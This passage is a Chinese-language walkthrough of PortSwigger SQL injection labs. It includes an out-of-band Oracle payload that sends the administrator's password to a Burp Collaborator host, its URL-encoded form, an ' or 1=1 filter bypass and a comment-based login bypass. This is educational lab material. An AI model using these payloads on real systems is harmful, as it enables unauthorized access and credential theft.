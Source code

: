 然後重新準備一個乾淨的 Burp Collaborator

完整 Payload

```
123' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.otltb6htbq5vsqx5bpvnxaub92fs3h.burpcollaborator.net/"> %remote;]>'),'/l')  FROM dual -- -
```

轉 URL Encode

```
123%27%20UNION%20SELECT%20extractvalue%28xmltype%28%27%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20root%20%5B%20%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2F%27%7C%7C%28SELECT%20password%20FROM%20users%20WHERE%20username%3D%27administrator%27%29%7C%7C%27.otltb6htbq5vsqx5bpvnxaub92fs3h.burpcollaborator.net%2F%22%3E%20%25remote%3B%5D%3E%27%29%2C%27%2Fl%27%29%20%20FROM%20dual%20--%20-%0A
```

就能收到密碼ㄌ，密碼在最左邊的 subdomain 上，以這個範例來看是 `21ozznf4cnhworyrn6fz`
![](https://i.imgur.com/eJxjUVN.png)

## [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### 題目敘述
 This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

### 題目解釋
希望可以 Query 出所有的東西，而原始的 SQL 已經寫在上面ㄌ。

### 解答

只需要把他的 `category` 後面的單引號合併，並把後面的東西註解，也就是輸入 `' or 1=1 -- -`，就可以過關

```
https://ac2f1fb01e9914f9c0b712fe002e0077.web-security-academy.net/filter?category=%27%20or%201=1%20--%20-
```


## [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
### 題目敘述
 This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user. 
### 題目解釋
蛤，為什麼這是最後一題，這應該要是第一題ㄅ，就傳說中的萬用密碼ㄚ

### 解答
- 帳號： `administrator' -- -`
- 密碼: `meow`


